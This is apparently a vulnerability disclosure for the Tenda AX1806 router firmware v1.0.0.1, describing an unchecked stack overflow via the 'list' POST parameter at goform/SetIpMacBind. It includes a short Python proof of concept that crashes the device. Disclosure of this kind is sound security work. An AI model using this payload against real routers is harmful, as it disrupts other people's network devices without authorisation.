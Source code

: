 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has a stack overflow vulnerability. The vulnerability occurrs in the fromSetIpMacBind function, which is accessible via the URL `goform/SetIpMacBind`.  

- <img src="./image/1.png" alt="1.png" style="zoom:50%;" />

The function takes the POST argument `list`, does not verify its length, and copies it directly to a local variable on the stack, causing a stack overflow.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"list": b'A'*0x800,
    b"bindnum": b"1"
}
res = requests.post("http://127.0.0.1/goform/SetIpMacBind", data=data)
print(res.content)
```


